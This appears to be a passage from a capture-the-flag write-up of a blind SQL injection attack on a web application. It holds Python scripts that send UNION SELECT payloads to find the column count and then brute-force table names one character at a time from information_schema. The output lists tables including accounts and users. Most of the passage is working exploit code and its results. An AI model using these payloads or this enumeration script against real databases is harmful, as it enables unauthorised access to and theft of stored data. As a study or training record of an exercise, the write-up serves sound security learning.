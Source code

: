 And now, we can run our queries without worrying about filters. Re-running the following code to get the number of columns being queried:

```python
for i in range(1, 50):
    args = ['NULL' for i in range(i)]
    args = ','.join(args)
    if sendPayload("'OR 1=1 UNION SELECT "+args+" #", 'd') == 1:
        print(i)
        break
```

Gives us 5.

Now it's time to dump the tables! I wrote a simple script to find all the names of the tables:

```python
tables = [''] # Incomplete table names
total = []  # Complete table names

# Find the possible characters that can be added to the table name tables[0]. If no new characters were found, means the name is complete & can be inserted in total else update tables list.
while len(tables) != 0:
    table = tables[0]
    possibles = []
    for c in "azertyuiopmlkjhgfdsqwxcvbn.,0123456789":
        if 1 == sendPayload("' UNION SELECT table_name, NULL, NULL, NULL, NULL FROM information_schema.tables where table_name like '"+table+c+"%' LIMIT 1#", 'd'):
            possibles.append(c)
    if len(possibles) != 1:
        del tables[0]
        for poss in possibles:
            tables.append(table+poss)
        if len(possibles) == 0:
            total.append(table)
    else:
        tables[0] = table + possibles[0]
    
    print('tables:', tables)
    print('total:', total)
```

This took a while to run since it's dumping everything. When it's done, we got the following list:

```python
['accounts', 'users', 'objects', 'keyring', 'waits', 'x', 'binary', 'error', 'events', 'engine', 'replication', 'role', 'rwlock', 'io', 'innodb', 'password', 'plugin', 'ps', 'sys', 'schema', 'data', 'default', 'db', 'func', 'file', 'general', 'gtid', 'global', 'help', 'hosts', 'latest', 'log', 'mutex', 'component', 'columns', 'cond', 'variables', 'version', 'performance', 'persisted', 'prepared', 'servers', 'setup', 'session', 'statements', 'status', 'solve', 'socket', 'slave', 'slow', 'memory', 'proxies', 'metadata', 'metrics', 'processlist', 'procs']
```

A lot of configuration tables... We can ignore those. What's interesting are these tables:

```python
['accounts', 'users', 'log', 'solve']
```
